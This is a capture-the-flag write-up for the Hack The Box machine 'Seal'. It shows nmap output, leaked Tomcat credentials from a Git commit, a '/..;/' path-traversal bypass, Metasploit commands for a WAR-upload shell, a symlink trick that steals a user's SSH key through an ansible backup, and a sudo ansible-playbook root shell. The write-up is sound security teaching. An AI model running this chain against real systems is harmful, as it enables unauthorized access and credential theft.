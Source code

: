 ![SEAL](banner.png)

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
```



## Foothold

On port 8080 we found a GitBucket. We registered a new user and found two repositories.
In the repository `seal_market` you can watch the history of some commits.
In one of them you can find credentials `tomcat:42MrHBf*z8{Z%`:

http://seal.htb:8080/root/seal_market/commit/971f3aa3f0a0cc8aac12fd696d9631ca540f44c

![creds](creds.png)

At the other page on port 443 you can get a look at the `Server Status` at `https://seal.htb/manager/status/` by using the creds of tomcat but other pages like the `Web Application Manager` are still forbidden.
Not that obvious but after enumerating a while we found a path traversal vulnerability where you can use `/..;/` to get a `/../`.

You can abuse that to get to the `Web Application Manager` like:
```
https://seal.htb/manager/status/..;/html
```

![application_manager](application_manager.png)

Here we can upload new `.war` files... To get a shell we can use the metasploit epxloit `tomcat_mgr_upload` like:
```
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword 42MrHBf*z8{Z%
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set TARGETURI /manager/status/..;
msf6 exploit(multi/http/tomcat_mgr_upload) > set SSL true
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 443
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.129.218.18
```
Now we got a shell as `tomcat` on the target machine.


## User

Enumerating with linpeas we found an interesting process that gets executed once a while:
```
╔══════════╣ Different processes executed during 1 min (interesting is low number of repetitions)
╚                                                                                                                     
    813 /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml   
```

The `run.yml` looks like:
```
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

So user luis copies some files to create a backup using ansible.
At the `run.yml` you can find the option `copy_links=yes`. This is our attack vector here as it copies files instead of links.
So we can create a new symlink to luis' `.ssh` directory and it will copy the files to the archive:
```
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/ssh
```
We can then download the lastest backups in `/opt/backups/archives` to get the `id_rsa` of luis.
Now you can just connect with `ssh -i id_rsa`.


## Root

Logged in as user luis we run `sudo -l`:

```sh
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

As we can run `ansible-playbook` as root we just follow this:  https://gtfobins.github.io/gtfobins/ansible-playbook/.

Just by typing
```sh
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```
you'll get a root shell.
